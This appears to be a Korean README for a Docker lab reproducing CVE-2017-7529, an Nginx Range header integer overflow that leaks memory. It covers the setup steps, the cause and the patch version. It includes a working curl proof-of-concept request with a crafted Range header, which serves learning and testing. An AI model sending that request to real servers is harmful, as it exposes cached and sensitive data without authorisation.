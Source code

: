 # CVE-2017-7529-Nginx Range Header Integer Overflow

- Nginx는 고성능 웹 서버이자 리버스 프록시, 캐시 서버 등으로 널리 사용되는 오픈소스 웹 서버입니다.

- Nginx 1.13.2 이하 버전에서, 정수 오버플로우로 인해 공격자가 Range 헤더를 조작하여 원래 응답 범위를 벗어난 메모리 조각이나 민감한 정보를 유출할 수 있는 취약점이 존재합니다.
---


## Reference  
- https://www.freebuf.com/articles/web/140178.html
---

## 취약 환경 구성
- 다음 명령어를 입력하여 취약한 Nginx 환경을 시작합니다.
```sh
bash
docker compose up -d
```
- 서버가 시작되면, 브라우저에서 다음 주소로 접속할 수 있습니다:

```
arduino
http://your-ip:8080
```
- Nginx 기본 페이지 또는 커스텀 index.html 페이지가 표시됩니다.
--- 

## 취약점 재현
- curl 명령어를 이용하여 악의적인 Range 헤더 요청을 보냅니다:
```
bash
curl -v -H "Range: bytes=-9223372036854,5" http://your-ip:8080/
```

### -> 응답 본문에 페이지 일부 외에도 이상한 바이너리 데이터 또는 메모리 쓰레기가 포함될 수 있습니다.
---

## 작동 원리 요약
- 이 취약점은 Range 요청을 처리할 때 음수와 양수의 정수 계산 과정에서 오버플로우가 발생하여, 원래 의도하지 않은 메모리 영역까지 응답에 포함시키게 됩니다.
- 이를 통해 공격자는 캐시된 데이터 또는 민감 정보 일부를 추출할 수 있습니다.
---

## 결론
- 이 취약점은 단순한 HTTP 요청만으로 정보 노출(Information Disclosure) 을 유발할 수 있습니다.
- 민감한 설정 정보나 기타 유출 가능한 데이터가 포함될 경우, 심각한 보안 사고로 이어질 수 있습니다.

- 패치: Nginx 1.13.3 이상으로 업데이트 권장
---

## 참고 파일 구성 예시
```
bash

CVE-2017-7529/
├── Dockerfile
├── docker-compose.yml
├── nginx.conf
├── index.html
└── README.md  <-- 본 문서
```
